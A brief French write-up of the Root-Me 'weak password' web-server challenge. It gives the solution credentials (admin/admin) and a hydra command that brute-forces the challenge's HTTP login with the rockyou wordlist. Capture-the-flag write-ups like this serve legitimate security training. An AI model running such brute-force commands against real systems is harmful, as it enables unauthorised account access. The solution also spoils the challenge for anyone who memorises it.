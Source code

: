 Le challenge : https://www.root-me.org/fr/Challenges/Web-Serveur/Mot-de-passe-faible

bon l'admin n'est pas fort en sécurité 
id: admin 
pwd : admin

Il existe un script python pour automatiser ça 

Mais aussi une application appelé hydra avec 
‘‘‘
hydra -l admin -P rockyou.txt -e nrs -vv challenge01.root-me.org http-get /web-serveur/ch3/
‘‘‘
